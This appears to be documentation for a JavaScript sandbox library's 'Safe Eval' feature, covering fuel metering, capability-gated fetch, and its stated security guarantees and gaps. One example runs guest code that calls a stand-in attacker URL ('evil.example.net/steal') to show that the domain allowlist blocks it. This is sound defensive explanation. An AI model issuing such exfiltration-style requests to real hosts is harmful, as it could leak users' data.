

Safe Eval
eval is too powerful to be allowed, which in practice means it is useless: no one sensible
lets untrusted code run with the full authority of the page, so the most dynamic feature in the
language goes unused. The goal was the opposite trade — make something as powerful as
possible while still being safe — and what came out is safer than the code around it. The
code that calls it is not guaranteed to halt, and neither is the code it calls; Safe Eval is.
So eval goes from the most dangerous execution environment in a project to the least dangerous.
It is the same machine as AJS — a fuel-metered VM with no ambient authority — exposed as the
two calls JavaScript already has: eval() becomes Eval, new Function() becomes
SafeFunction.
Eval — run code once
Eval runs a snippet of code in the sandbox and returns what it produced, with the fuel it
used. The code sees only the context you hand it.
import { Eval, SafeFunction } from 'tjs-lang/eval'
const { result, fuelUsed } = await Eval({ code: 'a + b', context: { a: 1, b: 2 } })
console.log(result) // → 3
console.log(fuelUsed > 0) // → true
Only context keys the code uses as names become variables, and a key never replaces a
builtin: a context entry called Math or NaN is ignored rather than rebinding it. A local
the code declares (let a = … or const a = …) shadows a context key of the same name.
SafeFunction — compile once, call many times
SafeFunction turns a function body into a callable. Its parameters are names, and each
call returns the same shape as Eval.
const add = await SafeFunction({ params: ['a', 'b'], body: 'return a + b' })
console.log((await add(1, 2)).result) // → 3
console.log((await add(20, 22)).result) // → 42
Nothing runs forever
Every step costs fuel, and a run that spends its budget is stopped. The failure comes back as a
value — an error alongside the result — rather than as an exception the caller has to catch.
const runaway = await Eval({
code: 'let i = 0\nwhile (true) { i = i + 1 }\nreturn i',
fuel: 100,
})
console.log(runaway.error.message) // → Out of Fuel
Creating a SafeFunction is the exception: a body that does not parse, or is over the source
size limit, throws when you create it — before any untrusted code has run.
Nothing reaches out unless you allow it
The sandbox has no network, no file system and no globals. Network access goes through the
httpFetch atom, and only if you inject a fetch capability — so the untrusted code gets
your fetch, with whatever rules you put in it.
A fetch capability returns the response body as plain data, not a Response: everything
a capability returns is copied across a boundary before the guest sees it, so the guest never
holds a live host object.
const allowed = ['api.example.com']
const safeFetch = (url, init) => {
if (!allowed.includes(new URL(url).host)) {
throw new Error(`Domain not allowed: ${new URL(url).host}`)
}
return fetch(url, init).then((r) => r.json()) // the BODY, not the Response
}
const cheap = await Eval({
code: `
let products = httpFetch({ url: 'https://api.example.com/products' })
return products.filter(x => x.price < budget)
`,
context: { budget: 100 },
capabilities: { fetch: safeFetch },
})
console.log(cheap.result) // → [{"name":"widget","price":40}]
const blocked = await Eval({
code: "return httpFetch({ url: 'https://evil.example.net/steal' })",
capabilities: { fetch: safeFetch },
})
console.log(blocked.error.message) // → Domain not allowed: evil.example.net
What the sandbox guarantees, and what it does not
Be precise here: a security claim you cannot cash is worse than none.
- Termination is guaranteed, not decided. Fuel metering sidesteps the halting problem rather than solving it: every step costs fuel and execution stops when it runs out, so a program either finishes or is stopped. A wall-clock timeout (by default ten milliseconds per unit of fuel) backs it up, and a stopped run cancels any request it had in flight.
- Bounded memory. The VM caps how much the guest can hold live at once (64 MB by default), separately from fuel, which bounds only how much work it does.
- Bounded input. Source over 8 KB is refused before it is transpiled, because
transpiling runs before fuel and the timeout apply. Raise or disable the cap with
maxSourceBytesfor trusted source you pass in; for source the agent builds at run time (runCode,transpileCode) it can only be lowered, since that text may come from a model. Serving untrusted callers? Have them send an AST (transpiled on their side) and run it withtjs-lang/vm-ast, which contains no parser. - No ambient authority. The VM has no IO by default; the only way out is a capability you inject, and every atom that touches one is tagged as IO — a tagging that is itself tested, so the list of ways out can be enumerated.
- The guest holds data, not references. Capability returns cross a
structuredCloneboundary, so guest code cannot reach a host object or mutate one you still hold. A value that cannot be copied — aResponse, a function, an object with getters — is rejected rather than passed through. - Layered and tested — not formally proven. These properties are structural and could in principle be proven; today they are enforced by construction and covered by an adversarial test suite.
- Known gap: cross-endpoint amplification. Recursive agent calls are bounded by a depth
header (
X-Agent-Depth, max 10), but that is cooperative — it stops accidental loops, not an adversarial endpoint that drops the header. Rate-limit completely open endpoints. - Out of scope: timing side channels, JavaScript-engine JIT bugs and memory-level attacks. A JavaScript-in-JavaScript sandbox cannot address those; put process isolation underneath if your threat model includes them.
